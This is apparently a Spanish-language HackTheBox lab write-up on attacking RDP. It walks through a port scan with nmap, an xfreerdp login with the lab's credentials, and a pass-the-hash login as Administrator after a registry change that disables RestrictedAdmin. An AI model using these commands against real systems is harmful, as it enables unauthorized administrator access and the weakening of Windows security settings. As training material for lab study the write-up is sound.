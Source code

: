 # Laboratorio RDP 💻

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    <img src="./assets/RDP/01-Ports.PNG">
</p>

---

Nos logueamos en el servicio RDP con las credenciales que nos da HackTheBox `htb-rdp:HTBRocks!`
* `xfreerdp /v:[IP] /u:htb-rdp /p:HTBRocks!`

---

Vemos un archivo en el **escritorio** con el siguiente contenido

<p align="center">
    <img src="./assets/RDP/02-RDP.PNG">
</p>

---

Si tratamos de hacer **`PassTheHash`** con las credenciales obtenidas recientemente, vemos que tendremos un error
* `xfreerdp /v:[IP] /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824`

<p align="center">
    <img src="./assets/RDP/03-Error.PNG">
</p>

---

Lo que haremos ahora, en la primera sesión de RDP, es modificar un registro para permitirnos acceder a RDP como el usuario `Administrator` usando **PassTheHash**

* PowerShell: `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

---

Si volvemos a intentar el ataque **PassTheHash** veremos que podemos autenticarnos como el usuario `Administrator` y ver la **flag** 🏴

<p align="center">
    <img src="./assets/RDP/04-Flag.PNG">
</p>
